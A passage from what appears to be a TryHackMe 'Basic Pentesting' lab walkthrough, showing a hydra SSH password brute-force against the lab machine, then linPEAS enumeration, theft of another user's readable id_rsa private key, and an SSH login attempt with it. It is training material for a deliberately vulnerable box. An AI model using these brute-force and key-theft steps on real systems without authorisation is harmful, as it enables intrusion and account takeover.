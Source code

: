<br />

The web server directory files we found earlier gave us the initial of one of the users with a weak password and based on the information obtained through `enum4linux` we can guess which one that is, we will therefore be using it with `hydra` to brute force its password.

```
╭─root@kali ~  
╰─➤  hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.192.97
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-14 23:19:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.192.97:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344245 to do in 1532:31h, 14 active
[STATUS] 121.67 tries/min, 365 tries in 00:03h, 14344036 to do in 1964:57h, 14 active
[STATUS] 102.29 tries/min, 716 tries in 00:07h, 14343685 to do in 2337:12h, 14 active
[22][ssh] host: 10.10.192.97   login: jan   password: ******
1 of 1 target successfully completed, 1 valid password found
```

<br />
<br />

## 5. Privilege escalation

<br />

Having successfully connected using the credentials `hydra` gave us, we can look around the system for potential misconfugurations we can take advantage of. Fortunately, there are numerous programs, such as [`linPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), that automate this process for us and provide a detailed analysis of the results.

Since we have a user's credentials, we can `scp` the file from our machine to the target - Alternatively, we can set up a temporary server locally which we can use to download the file from using the SSH shell on the target machine. My rule of thumb is to place temporary files remotely under the `/tmp` folder since most users have full access to it, however you can feel free to use any other directory allowing you to execute files.

After running the program there is a lot of information to go through, however a common misconfiguration stands out. The user we are currently connected with has access to the other user's `.ssh` folder and can read through their RSA keys!

Based on this, we can copy the contents of the `id_rsa` private key to a local file and use that to connect to the target impersonating the user this key belongs to. 

Before doing so and to avoid any issues, please ensure the permissions on the local RSA file we created are set to `600` for `read & write`.

```
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  chmod 600 kay_id_rsa 
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  ssh -i kay_id_rsa kay@10.10.192.97
Enter passphrase for key 'kay_id_rsa':
```
